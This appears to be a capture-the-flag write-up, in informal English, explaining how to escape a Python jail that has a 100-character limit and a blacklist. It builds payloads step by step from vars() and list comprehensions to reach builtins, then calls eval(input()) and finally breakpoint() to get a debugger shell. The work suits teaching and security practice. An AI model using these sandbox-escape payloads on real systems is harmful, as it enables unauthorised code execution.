










# Golfing 100 Character

u can see at the <a href="blacklist.py">code</a>, it still using LITE ban and u can use more than 100 character.

First, lets use inline for loop to iterate __vars()__ and get the builtins

```
[x for x in vars()]
```



u can see if the __\_\_builtins\_\___ function is on array, so we need to know where is the index of that function. Cuz if we call the function normally, it will make the payload longer.



after that, using this payload will call the __\_\_builtins\_\___ function.

```
[x for x in vars()][6]
```



now lets try to put in inside the __vars()__

```
vars(vars()[[x for x in vars()][6]])
```



now take the __eval()__ and __input()__ using

```
vars(vars()[[x for x in vars()][6]])['eval']
```

and

```
vars(vars()[[x for x in vars()][6]])['input']
```



it works, now put the __input()__ inside the __eval()__



ok its done, next, lets check the length of the payload using my own <a href='count_char.py'>code</a>.



but the main problem is here, test the payload to the blacklist code.



yea, i forgot bout __LITE Ban__, lets fix it using another way



the solution is change the __"LITE"__ with hex, but look what happen, the payload is over 100 character, but i have another solution.

There is some function that is shorter than __eval(input())__, that is __breakpoint()__.

So, instead of using

```
eval(input())
```

to get the shell, we can use that is shorter

```
breakpoint()
```

in a normal syntax, __breakpoint()__ is more shorter one character, and __breakpoint()__ will send us to Pdb (Python debugger).

use this syntax to know what is builtins function

```
[y for y in vars(vars()[[x for x in vars()][6]])]
```



__breakpoint()__ is one of builtins function, so, lets call it

```
vars(vars()[[x for x in vars()][6]])['breakpoint']()
```


